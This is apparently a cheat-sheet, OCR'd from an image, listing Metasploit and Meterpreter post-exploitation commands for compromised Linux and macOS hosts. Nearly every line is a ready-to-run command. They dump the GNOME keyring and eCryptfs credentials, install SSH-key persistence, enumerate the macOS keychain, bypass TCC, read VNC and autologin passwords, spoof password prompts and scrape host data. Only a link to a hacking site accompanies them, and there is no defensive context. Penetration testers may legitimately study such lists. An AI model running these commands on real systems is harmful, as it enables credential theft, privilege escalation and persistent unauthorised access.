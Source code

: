 

run post/linux/gather/gnome_commander_creds

run post/linux/gather/gnome_keyring_dump

run post/linux/gather/ecryptfs_creds

run post/linux/gather/haserl_read

run post/linux/manage/sshkey_persistence

## OSX Modules



run post/osx/gather/enum_chicken_vnc_profile

run post/osx/gather/safari_lastsession



run post/osx/gather/enum_colloquy

run post/osx/gather/vnc_password_osx



run post/osx/gather/enum_keychain



run post/osx/escalate/tccbypass

run post/osx/gather/enum_messages



run post/osx/gather/apfs_encrypted_volume_passwd

run post/osx/gather/autologin_password

run post/osx/gather/gitignore



run post/osx/gather/enum_adium

run post/osx/gather/enum_airport

run post/osx/gather/password_prompt_spoof

## Others

```
meterpreter > run netenum
```

run domain_list_gen

run duplicate

run enum_putty

run enum_vmware

run event_manager

run scraper

https://www.hackers-arise.com/ultimate-list-of-meterpreter-scripts